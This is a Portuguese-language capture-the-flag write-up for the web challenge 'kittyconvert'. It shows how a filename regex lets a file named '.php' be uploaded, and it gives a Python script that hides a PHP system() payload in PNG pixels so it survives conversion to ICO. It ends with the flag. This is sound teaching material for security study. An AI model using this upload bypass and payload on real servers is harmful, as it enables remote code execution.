 # kittyconvert

*Need to convert a file? Our kittens have got you covered!*

- *Web Exploitation*
- *Autor do writeup: [@rebane2001](https://github.com/rebane2001)*

> Você pode acessar os arquivos do desafio no nosso repositório
> <https://github.com/HawkSecUnifei/Writeups>

O desafio disponibiliza um website chamado KittyConvert que permite os usuários converter arquivos PNG para arquivos ICO. Ele também fornece o código-fonte do servidor que carrega o site. O objetivo do desafio é acessar a flag dentro do arquivo `flag.txt` localizado no diretório root do servidor.

## Parte I - Passando pela checagem de extensão
Ao analisar o código-fonte, notamos o trecho de código no arquivo `index.php`: 
``` php
if (isset($_FILES['file'])) {
  $base_dir = "/var/www/html/";
  $ico_file = "uploads/" . preg_replace("/^(.+)\\..+$/", "$1.ico", basename($_FILES["file"]["name"]));
  
  if ($_FILES["file"]["size"] > 8000) {
    echo "<p>Sorry, your file is too large you need to buy Nitro.</p>";
  } else {
    require( dirname( __FILE__ ) . '/class-php-ico.php' );
    $ico_lib = new PHP_ICO( $_FILES["file"]["tmp_name"], array( array( 32, 32 ), array( 64, 64 ) ) );
    $ico_lib->save_ico( $base_dir . $ico_file );
    $success = true;
  }
}
```
A função `preg_replace` nesse código está checando se os arquivos sendo enviados tem alguma extensão. Caso eles tenham, a string `'ico'` é colocada no final do nome do arquivo. Isto apaga a possibilidade de mandar um arquivo `exploit.php` com algum código malicioso e então executá-lo ao requerir o path `/uploads/exploit.php`. No entanto, existe uma alternativa: se o arquivo enviado se chamar apenas `.php`, o código `preg_replace("/^(.+)\\..+$/", "$1.ico", basename($_FILES["file"]["name"]))` não adicionará a extensão `.ico`. Isso ocorre porque a expressão regular exige que haja pelo menos um caractere antes do primeiro ponto (.), o que não é o caso de `.php`.

## Parte II - Construindo o payload
Nós já temos uma parte do problema pronta: como executar código dentro do servidor. Mas nos deparamos com um obstáculo: o conteúdo do arquivo que enviamos é alterado pela classe `PHP_ICO`. Nosso desafio será criar um arquivo PNG que quando sofre as alterações descritas em `class-php-ico.php` gere um código php interessante.
``` python
from PIL import Image

im = Image.new("RGBA", (64,64), "white")
pixels = im.load()
payload = b'<?php    echo   system( "cat /flag.txt" );  ?>  '

for index, el in enumerate(zip(*[iter(payload)]*4)):
    if el[3] % 2 == 1: 
        print(f"Invalid alpha character")
    pixels[(index%64, index//64)] = (el[2],el[1],el[0],el[3])

im.save("exploit.png", "PNG")
```

Já conseguimos explorar uma vulnerabilidade que permite a execução de código dentro do servidor. Entretanto, enfrentamos um novo obstáculo: o conteúdo do arquivo enviado é modificado pela classe `PHP_ICO`.  

Nosso desafio agora é criar um arquivo PNG que, ao sofrer essas alterações pela classe `class-php-ico.php`, gere um código PHP funcional. Para isso, vamos codificar um payload dentro dos pixels da imagem, garantindo que, mesmo após a conversão, ele possa ser interpretado como código PHP executável.  

O código python a seguir cria um arquivo PNG legítimo com tamanho 64 por 64 e preenchido todo com pixels em branco. Em seguida, ele injeta os bytes da variável `payload` nos bytes da imagem. Vale ressaltar que, no formato PNG, as cores seguem o formato RGBA, enquanto que, no formato ICO, as cores seguem o formato BGRA. Por isso a linha de código `(el[2],el[1],el[0],el[3])` invés de `(el[0],el[1],el[2],el[3])`. Além disso, o código também corta o bit menos significativo do campo alpha, nos forçando a deixar somente bytes com o LSB (less significant bit) igual a zero como o valor de alpha. Por essa razão, o payload está formatado dessa maneira.  

Por fim, utilizando esse código para criar um arquivo PNG apropriado e o enviando de acordo o procedimento descrito na parte I, obteremos a flag:
```
x3c{b1tm4p5_4r3_s1mpl3_6u7_7h3_4lph4_1s_w31rd}
```
## Autor da WriteUp
[Membro de Networking - Luiz Felipe](https://github.com/LuizF14)
